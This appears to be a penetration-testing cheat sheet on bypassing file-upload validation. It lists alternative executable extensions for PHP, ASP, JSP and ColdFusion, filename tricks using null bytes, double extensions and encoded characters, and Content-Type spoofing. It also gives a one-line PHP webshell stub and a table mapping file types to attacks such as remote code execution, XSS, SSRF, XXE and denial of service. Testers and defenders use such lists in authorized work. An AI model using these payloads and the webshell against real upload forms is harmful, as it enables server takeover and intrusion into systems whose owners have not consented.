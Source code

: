 # File name validation
    # extension blacklisted:
    PHP: .phtm, phtml, .phps, .pht, .php2, .php3, .php4, .php5, .shtml, .phar, .pgif, .inc
    ASP: .asp, .aspx, .cer, .asa
    Jsp: .jsp, .jspx, .jsw, .jsv, .jspf
    Coldfusion: .cfm, .cfml, .cfc, .dbm
    Using random capitalization: .pHp, .pHP5, .PhAr
    pht,phpt,phtml,php3,php4,php5,php6,php7,phar,pgif,phtm,phps,shtml,phar,pgif,inc
    # extension whitelisted:
    file.jpg.php
    file.php.jpg
    file.php.blah123jpg
    file.php%00.jpg
    file.php\x00.jpg
    file.php%00
    file.php%20
    file.php%0d%0a.jpg
    file.php.....
    file.php/
    file.php.\
    file.
    .html
# Content type bypass
    - Preserve name, but change content-type
    Content-Type: image/jpeg, image/gif, image/png
# Content length:
    # Small bad code:
    <?='$_GET[x]'?>
    
# Impact by extension
asp, aspx, php5, php, php3: webshell, rce
svg: stored xss, ssrf, xxe
gif: stored xss, ssrf
csv: csv injection
xml: xxe
avi: lfi, ssrf
html, js: html injection, xss, open redirect
png, jpeg: pixel flood attack dos
zip: rce via lfi, dos
pdf, pptx: ssrf, blind xxe
